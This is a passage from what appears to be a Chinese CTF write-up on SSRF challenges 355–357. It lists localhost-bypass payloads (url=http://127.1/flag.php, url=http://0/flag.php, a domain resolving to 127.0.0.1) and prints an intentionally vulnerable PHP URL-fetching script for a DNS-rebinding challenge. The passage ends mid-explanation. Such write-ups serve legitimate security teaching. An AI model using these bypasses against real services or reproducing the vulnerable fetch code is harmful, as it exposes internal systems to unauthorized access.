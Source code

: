 1·修改自己域名的a记录，改成127.0.0.1

2·这个网站a记录指向127.0.0.1 可以直接利用

url=http://sudo.cc/flag.php

---
# 355
![](https://img-blog.csdnimg.cn/2021041523485340.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
长度限制：
url=http://127.1/flag.php

---
# 356
>if((strlen($host)<=3)){

url=http://0/flag.php

>0在 linux 系统中会解析成127.0.0.1在windows中解析成0.0.0.0

---
# 357(DNS重绑定)
```php
<?php 
error_reporting(0); 
highlight_file(__FILE__); 
$url=$_POST['url']; 
$x=parse_url($url); 
if($x['scheme']==='http'||$x['scheme']==='https'){ 
$ip = gethostbyname($x['host']); 
echo '</br>'.$ip.'</br>'; 
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) { 
    die('ip!'); 
} 


echo file_get_contents($_POST['url']); 
} 
else{ 
    die('scheme'); 
} 
?>
```

函数解析：
- gethostbyname()    返回主机名 hostname 对应的 IPv4 互联网地址。

- FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）

- FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）

